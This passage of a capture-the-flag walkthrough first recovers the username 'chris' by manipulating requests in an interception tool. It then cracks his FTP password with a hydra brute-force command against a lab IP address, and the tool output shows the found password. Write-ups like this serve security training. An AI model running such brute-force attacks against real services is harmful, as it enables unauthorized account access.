 > What is the agent name?

- Let's go to the `Options` tab and set the `Follow redirection` option to `Always`.

![[13 2.png]]

- Now, let's start the attack again and check `Response 2` to see if it has any useful information.

![[7 15.png]]

- We are told the the user `chris` has a weak password.

- Knowing that FTP is running on the machine, this could be an opportunity for brute forcing.

## Answer

```

chris

```

# Task 3 Hash cracking and brute-force

## Question

> FTP password

- Using `hydra`, we can brute force the password for the user `chris`.

```

$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

  

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task

[DATA] attacking ftp://10.10.80.123:21/

[21][ftp] host: 10.10.80.123   login: chris   password: crystal

[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52

```
